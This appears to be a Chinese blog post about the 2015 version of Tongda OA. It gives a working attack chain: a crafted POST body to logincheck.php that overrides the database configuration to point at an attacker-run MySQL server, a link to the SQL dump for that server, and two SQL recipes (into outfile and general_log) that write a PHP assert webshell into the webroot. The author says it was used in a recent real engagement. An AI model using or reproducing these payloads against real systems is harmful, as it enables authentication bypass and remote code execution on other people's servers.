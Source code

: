 ```yaml
---
title: "通达 OA 变量覆盖及 getshell"
date: 2018-08-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



版本 2015, 乌云平台上的漏洞, 正好最近实战也用到了

<!--more-->

# 变量覆盖

`/logincheck.php`

post 数据

`USERNAME=admin&PASSWORD=&MYOA_MASTER_DB[id]=1&MYOA_MASTER_DB[host]=MYSQL_HOST&MYOA_MASTER_DB[user]=MYSQL_USER&MYOA_MASTER_DB[pwd]=MYSQL_PASSWORD&MYOA_MASTER_DB[db]=MYSQL_DATABASE`

mysql 数据库需要自己部署

[TD_OA.sql](http://exp10it-1252109039.cossh.myqcloud.com/2018/08/06/1533560380.sql)

# getshell

后台有 sql 导入功能, 有两种方法, 使用 `into outfile` 或者用 `general_log`

```
update mysql.user set file_priv='Y' where user='root';
flush privileges;
select concat("'",0x3C3F7068702061737365727428245F504F53545B615D29203F3E) into outfile '../webroot/test.php';
update mysql.user set file_priv='N' where user='root';
flush privileges;
```

```
set global general_log = on;
set global general_log_file = '../webroot/test.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off;
```

保存为 sql 文件然后上传即可